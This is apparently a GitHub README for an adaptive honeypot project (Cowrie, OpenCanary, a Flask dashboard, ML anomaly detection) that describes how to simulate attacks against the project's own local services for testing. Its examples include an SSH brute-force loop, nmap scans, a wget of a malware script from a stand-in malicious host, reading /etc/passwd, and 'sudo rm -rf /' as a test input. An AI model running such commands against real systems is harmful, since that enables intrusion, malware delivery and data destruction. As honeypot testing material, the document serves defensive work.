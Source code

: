 # Adaptive Honeypot Attack Simulation

This README outlines how to simulate attacks against your adaptive honeypot system for testing purposes. These local or scripted attacks trigger the same internal logging and anomaly detection mechanisms as real intrusions—ideal for verifying pipeline accuracy from ingestion to dashboard display.

## Project Structure (Updated)
```
├── Scripts/
│   ├── webapp.py               # Flask backend & API
│   └── main.py                 # Anomaly detection & ML pipeline
├── simulators/
│   └── bulk_attack_simulator.py  # Automated attack generation
├── database/
│   └── cowrie_events.db        # SQLite storage for all logs
├── templates/
│   └── index.html              # Flask UI dashboard
├── static/
│   └── style.css               # Web styling assets
```

##  Prerequisites
Before simulating attacks, make sure the following services are active:
- [ ] Cowrie honeypot (SSH)
- [ ] OpenCanary honeypot (FTP, HTTP, Redis, MySQL, etc.)
- [ ] Flask backend (`webapp.py`)
- [ ] SQLite database (`cowrie_events.db`)
- [ ] Anomaly detection via `main.py`

##  Simulating SSH Attacks (via Cowrie)
###  Manual Login Attempts
```bash
ssh root@localhost -p 2222
```
- Try random username/password combinations.
- Cowrie logs these into the database.

###  Brute Force Loop (via `sshpass`)
```bash
for i in {1..20}; do
  sshpass -p "wrongpass$i" ssh user$i@localhost -p 2222 -o StrictHostKeyChecking=no
done
```
> Requires `sshpass`: `sudo apt install sshpass`

##  Simulating OpenCanary Probes
OpenCanary listens for connections on multiple ports.

###  FTP/HTTP/Port Scan Examples
```bash
ftp localhost
curl http://localhost
nmap -sV -p 21,80,3306,6379 localhost
```
These simulate probes and enumeration attempts.

##  Simulating Malicious Commands (Cowrie Shell)
After logging into the Cowrie shell:
```bash
wget http://malicious.site/malware.sh
cat /etc/passwd
ls -la /var/www
```
These actions are parsed and analyzed for anomalies.

##  Web-Based Simulation Interface
If `webapp.py` is running:
1. Navigate to: `http://localhost:5000/simulate`
2. Input:
   - Fake usernames/passwords
   - Suspicious commands like `sudo rm -rf /`

This feeds directly into the backend and anomaly detection pipeline.

##  Bulk Attack Simulation Script
You can also simulate traffic via the `bulk_attack_simulator.py` script:
```bash
python3 simulators/bulk_attack_simulator.py
```
Options for fake log types (Cowrie, OpenCanary) and IP spoofing are available in the script parameters.

##  Triggering Anomalies via API
You can post directly to the API using:
```bash
curl -X POST http://localhost:5000/api/fake-log   -H "Content-Type: application/json"   -d '{"username": "admin", "password": "123456", "src_ip": "101.23.45.66"}'
```
Loop this with different IPs to simulate distributed attacks.

##  Monitoring and Verification
### Terminal Logs
- `webapp.py` will display incoming logs and anomaly classifications.

### SQLite DB
Query for flagged events:
```bash
sqlite3 database/cowrie_events.db
SELECT * FROM events WHERE is_anomaly = 1;
```

### Flask Dashboard
View live stats at: `http://localhost:5000`
- Flagged anomalies
- Credential entropy
- Command irregularities
- IP diversity patterns

##  Notes
- Cowrie listens on port `2222` by default.
- OpenCanary runs via `opencanaryd --start`.
- ML models (Isolation Forest, One-Class SVM) are triggered through `main.py`.